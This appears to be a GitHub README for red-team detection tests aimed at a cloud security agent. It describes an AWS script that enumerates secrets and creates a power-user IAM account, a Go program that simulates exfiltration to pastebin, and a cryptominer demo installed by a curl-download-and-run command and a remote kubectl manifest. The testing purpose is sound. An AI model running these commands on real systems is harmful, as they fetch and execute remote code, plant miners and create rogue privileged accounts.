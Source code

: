 # Red Team Examples
Red team examples and sample code.  
  
The purpose of red team testing is to validate the state of an environment by simulating an attack. Red team tests are performed by a group of security professionals.  
  
Red teams are responsible for testing the organization's detection and response capabilities by attempting to gain access to systems or data covertly.   
  - The team will carry out different attacks, with the flexibility to use different techniques (phishing/spearphishing, exploiting vulnerabilities in software, social engineering, etc.).   
  - The end goal of the red team is to get as much access/data as possible without being detected.   
  - At the end of the engagement, the red team delivers a report of actions taken by their team.  
  - The red team and blue team (which is the internal security team that is responsible for defending against the red team/attackers) compare notes on what was/wasn’t detected, allowing the security team to understand and correct gaps in coverage/detections.  
    
These examples are simple to run but display behaviours that will test the validity of security systems.   
  
### 1. AWS Account Exploit  
  
This script performs AWS CLI commands to simulate offensive security actions:   
  - lists EC2 instances, security groups, secrets for each region. 
  - creates a new AWS IAM user eg. 'baduser' with power user privileges.    
  - using 'baduser', creates an S3 bucket, and puts a file into it.  
  - cleans up: deletes the bucket, deletes 'baduser'.
  - accepts an optional argument for the username that gets created, otherwise defaults to `baduser`. 
  
##### Prerequisites
  - AWS CLI with profile set. 

##### Usage
Arguments: newusername awsprofile. 
  
```bash 
cd aws_account_exploit
sh ./aws-lateral-movement.sh baduser default
```
  
### 2. Exfiltration Simulation
  
This example pulls data down some random endpoints and then attempts to post it to pastebin. The script does not do anything inherently malicious but is the type of activity indicating data exfiltration.  
  
##### Prerequisites
  - AWS EC2 Linux with Lacework Agent
  - Golang 
  
##### Usage
```bash
apt install golang
  
  
cd GoExfil
go build
go run BasicExfil.go
```
  
### 3. Cryptominer
  
This example installs and runs XMRig, which is a cryptominer. The installation is not malware and does not propagate. 
  
The Crypto Mining script should be run on a standalone EC2 Instance or Kubernetes deployment with Lacework installed. The exploit will only execute in interactive mode, so once the script is terminated, the exploit will be terminated. It’s recommended to run for at least 1 hour to ensure all steps in the exploit are executed.  
  
##### Prerequisites
  - AWS EC2 Linux with Lacework Agent.  
  - (alternative) AWS K8s Cluster with Lacework Agent.  
  
##### Linux VM Deployment
```bash
curl http://lwmalwaredemo.com/install-demo-1.sh -o install-demo-1.sh; sh install-demo-1.sh;
```
  
##### Kubernetes Deployment
Deploys a crypto miner malware example for testing the Lacework agent. 
  
Run the following command to deploy the example.  
```bash
kubectl apply -f https://raw.githubusercontent.com/lacework-dev/scripts/main/k8s-crypto-miner.yaml
```
  
Run the following command to delete the example.  

```bash
kubectl delete -f https://raw.githubusercontent.com/lacework-dev/scripts/main/k8s-crypto-miner.yaml
```
Here is the script:  
https://github.com/lacework-dev/scripts/blob/main/k8s-crypto-miner.yaml
  


